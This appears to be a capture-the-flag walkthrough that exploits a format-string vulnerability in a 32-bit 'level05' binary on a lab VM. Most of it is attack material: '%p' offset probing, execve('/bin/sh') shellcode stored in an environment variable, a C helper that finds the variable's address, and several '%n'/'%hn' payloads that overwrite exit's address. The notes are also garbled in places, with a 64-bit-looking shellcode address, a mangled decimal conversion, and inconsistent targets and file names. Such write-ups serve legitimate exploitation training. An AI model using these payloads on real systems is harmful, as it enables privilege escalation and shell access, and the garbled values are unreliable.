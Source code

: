 We get the binary out of the Vm using this cmd:

`scp -P 4242 level05@192.168.56.103:./level05 .binary/level2`

printf exploit, find the offset :\
We know addr of the prnitf format string (our input) is `0x0804846e`

`python -c "print '\x08\x04\x84\x6e'[::-1] + '%p '* 10" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level05`

we got this
```
n0x64 0xf7fcfac0 0xf7ec3af9 0xffffd5ff 0xffffd5fe (nil) 0xffffffff 0xffffd684 0xf7fdb000 0x804846e 
```
so offset is 10

Lets put a shellcode in a env variable
`export SHELLCODE=$(python -c "print '\x90'*200 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'")`

We need it's addr so let's use a small c file :
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
	if (argc != 2)
		return (printf("need te env var you want the addr of\n"));
	printf("Var [%s] at addr [%p] = [%s]\n", argv[1], getenv(argv[1]), getenv(argv[1]));
	return 0;
}
```

compile with flag -m32 to get the 32 bit addr


* shellcode addr : `0x  7fffffffe107` => decimal 
						  2 147 483 647       57607
* addr of exit   : `0xf7e5eb70`


`addr exit` + `%c` + `%10$n`

`python -c "print '\x38\x98\x04\x08' + '%2048x%4\$hn' + '%31904x%4\$hn'" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level5`

python -c "print '\x08\x04\x97\xe0'[::-1] + '%57603c' + '%11\$c' + '%2147426040c' + '%10\$n'"> /tmp/exploit_5; cat /tmp/exploit_5 | ./level05